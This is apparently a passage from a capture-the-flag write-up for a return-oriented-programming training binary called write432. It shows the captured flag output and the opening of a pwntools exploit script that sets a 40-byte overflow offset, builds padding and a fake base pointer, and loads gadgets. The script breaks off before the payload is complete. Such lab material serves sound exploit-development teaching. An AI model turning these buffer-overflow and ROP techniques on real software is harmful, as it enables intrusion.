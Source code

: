 	b' Thank you!\nROPE{i ate the bug}\n\n'


Here's what it looks like:

	$ cat write432.py
	
	from pwn import *
	from pprint import pprint
	offset = 40
	
	context.arch = 'i386'
	
	elf = ELF("./write432")
	p = elf.process()
	
	
	print(p.recvuntil(b">"))
	# let's first determine where everything is:
	# pprint(elf.symbols)
	
	# let's print out some addresses and double-check with gdb 
	#   print("data start:", p32(elf.symbols["data_start"]))
	#   print("useful gagdets is at: ", p32(elf.symbols["usefulGadgets"]))
	#   print("print_file@plt is located at: " , p32(elf.symbols["plt.print_file"]))
	#   print("print_file is located at: " , p32(elf.symbols["print_file"]))
	
	
	# Crafting variable for our payload :)
	
	# use rop object to locate gadgets in memory
	rop = ROP(elf)
	
	# buffer is 40 A's
	buf = b"A"*offset
	
	# fake ebp
	fake_ebp = b"BBBB"
	